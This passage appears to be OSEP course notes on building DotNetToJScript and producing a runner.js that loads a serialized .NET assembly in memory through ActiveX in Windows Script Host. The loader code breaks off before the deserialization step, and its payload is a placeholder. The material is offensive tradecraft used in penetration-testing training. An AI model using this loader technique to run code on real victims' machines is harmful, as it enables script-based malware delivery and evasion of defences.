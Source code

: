 ![](https://raw.githubusercontent.com/col-1002/OSEP-Course/main/Attachment/Build_DotNetToJScript.png)

Switch from **Debug** to **Release** mode and compile the entire solution with "Build" > "Build Solution". Then move three file to one folder:
- DotNetToJScript.exe
- NDesk.Options.dll
- ExampleAssembly.dll

Command to build Jscript file

```powershell
.\DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

![[Pasted image 20240601193932.png]]

### File runner.js

```js
// config the WSH to use version 4.0.30319 of the .NET framework
function setversion() {
	new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {} // debug flag (-d)

// base64 decoding function 
function base64ToStream(b) {
	var enc = new ActiveXObject("System.Text.ASCIIEncoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);

	// leverages various .NET classes through ActiveXObject instantiation
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
	var ms = new ActiveXObject("System.IO.MemoryStream");
	ms.Write(ba, 0, (length / 4) * 3);
	ms.Position = 0;
	return ms;
}

var serialized_obj = "BASE64_ENCODED_BINARY_BLOB"; // compiled C# assembly
var entry_class = 'TestClass'; // class executed

// Deserialization of assembly ExampleAssembly.dll in memory
```